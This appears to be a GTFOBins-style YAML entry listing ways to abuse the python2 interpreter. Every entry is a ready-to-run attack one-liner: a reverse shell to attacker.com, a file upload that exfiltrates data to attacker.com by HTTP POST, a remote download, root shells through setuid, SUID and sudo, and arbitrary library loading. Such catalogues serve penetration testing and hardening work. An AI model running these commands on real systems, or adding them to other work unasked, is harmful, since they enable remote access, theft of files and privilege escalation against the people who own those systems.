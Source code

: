 ```yaml
---
functions:
  execute-interactive:
    - code: python2 -c 'import os; os.system("/bin/sh")'
  reverse-shell-interactive:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        python2 -c 'import sys,socket,os,pty;s=socket.socket(); s.connect((os.getenv("RHOST"),int(os.getenv("RPORT")))); [os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn("/bin/sh")'
  upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        python2 -c 'import urllib as u,urllib2 as u2,os.environ as e; u2.urlopen(u2.Request(e["URL"],u.urlencode({"d":open(e["LFILE"]).read()})))'
    - description: Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        python2 -m SimpleHTTPServer $LPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        python2 -c 'import urllib as u,os.environ as e;u.urlretrieve(e["URL"], e["LFILE"])'
  file-write:
    - code: python2 -c 'open("file_to_write","w+").write("DATA")'
  file-read:
    - code: python2 -c 'open("file_to_read").read()'
  load-library:
    - code: python2 -c 'from ctypes import cdll; cdll.LoadLibrary("lib.so")'
  capabilities-enabled:
    - code: ./python2 -c 'import os; os.setuid(0); os.system("/bin/sh")'
  suid-enabled:
    - code: ./python2 -c 'import os; os.system("/bin/sh -p")'
  sudo-enabled:
    - code: sudo python2 -c 'import os; os.system("/bin/sh")'
---
```

